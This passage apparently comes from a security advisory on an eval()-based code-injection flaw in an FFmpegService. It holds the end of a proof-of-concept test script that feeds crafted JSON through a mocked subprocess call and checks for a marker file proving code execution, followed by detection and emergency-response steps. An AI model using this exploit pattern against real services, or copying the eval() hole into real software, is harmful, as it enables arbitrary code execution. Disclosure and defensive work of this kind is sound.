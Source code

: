 ```python
        }
    }
    
    # Mock subprocess.run to return our malicious data
    with unittest.mock.patch('subprocess.run') as mock_run:
        mock_run.return_value.stdout = json.dumps(malicious_response)
        mock_run.return_value.returncode = 0
        
        # Import and test the vulnerable service
        from services.ffmpeg_service import FFmpegService
        service = FFmpegService()
        
        print("🚨 Testing vulnerability exploitation...")
        
        try:
            # This will execute the malicious code
            result = service.get_media_info('/fake/malicious_video.mp4')
            
            # Check if attack succeeded
            import os
            if os.path.exists('/tmp/SECURITY_BREACH_CONFIRMED'):
                print("❌ CRITICAL: Vulnerability successfully exploited!")
                print("   Malicious code executed with application privileges")
                os.remove('/tmp/SECURITY_BREACH_CONFIRMED')
            else:
                print("⚠️  Attack simulation completed (check logs for execution)")
                
            print(f"Result: {result}")
            
        except Exception as e:
            print(f"Error during exploitation: {e}")
            print("This error may mask successful code execution")

if __name__ == "__main__":
    test_exploitation()
```

## Detection and Mitigation

### How to Detect Active Exploitation

1. **Log Analysis**: Look for suspicious eval() executions
2. **Process Monitoring**: Unusual subprocess calls
3. **Network Monitoring**: Unexpected outbound connections
4. **File System Monitoring**: Unexpected file access/modification

### Emergency Response Steps

1. **Immediate Isolation**: Disconnect affected systems
2. **Process Analysis**: Check running processes for malware
3. **Log Preservation**: Secure logs for forensic analysis
4. **Patch Deployment**: Apply security fixes immediately
5. **System Rebuild**: Consider rebuilding compromised systems

